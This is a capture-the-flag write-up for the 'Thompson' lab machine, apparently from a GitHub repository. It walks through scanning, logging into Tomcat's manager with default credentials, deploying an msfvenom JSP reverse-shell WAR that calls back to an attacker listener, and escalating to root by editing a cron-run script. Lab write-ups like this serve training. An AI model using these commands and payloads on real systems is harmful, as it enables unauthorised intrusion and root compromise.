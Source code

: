 # Thompson - Easy

* nmap scan - ```nmap -T4 -p- -A -Pn -v 10.10.55.78``` - reveals open ports & services:

  * 22/tcp - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  * 8009/tcp - ajp13 - Apache Jserv (Protocol v1.3)
  * 8080/tcp - http - Apache Tomcat 8.5.5
  * 13003/tcp - unknown

* Navigating to <http://10.10.55.78:8080> leads us to homepage for Apache Tomcat/8.5.5

* Searching for exploits associated with this gives us an exploit for CVE-2017-12617, but that does not work

* For the page on port 8080, when we try accessing the manager apps, we get an authentication prompt; this leads us to a ```401 Unauthorized``` page

* This page mentions default credentials 'tomcat:s3cret'; using these creds, we get access to the Tomcat webapp manager

* The manager page also includes a WAR file upload option; we can try searching for more related exploits

* [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce) has some neat methods to get RCE; we can use the Metasploit one, but it does not work

* We can craft a malicious '.war' file using ```msfvenom```:

  ```sh
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.25.65 LPORT=1234 -f war -o revshell.war

  nc -nvlp 1234
  # setup listener
  ```

* Back in manager page, once we deploy the WAR file after uploading it, we can access it at '/revshell' (included in the Applications table); on our listener, we get reverse shell:

  ```sh
  which python
  # we have python on target machine

  python -c 'import pty;pty.spawn("/bin/bash")'
  # temporary shell

  id
  # we are 'tomcat' user

  pwd

  ls /home
  # we have a user 'jack'

  ls -la /home/jack
  # get user flag

  # we also have a script here
  cat /home/jack/id.sh
  # this runs a command as root
  # and prints it to a .txt file

  # to confirm this
  cat /etc/crontab
  # this shows root is running the script every minute

  echo "cat /root/root.txt >> test.txt" >> /home/jack/id.sh
  # modify the script running as root

  cat /home/jack/id.sh
  # confirm the change

  cat /home/jack/test.txt
  # includes root flag now
  ```
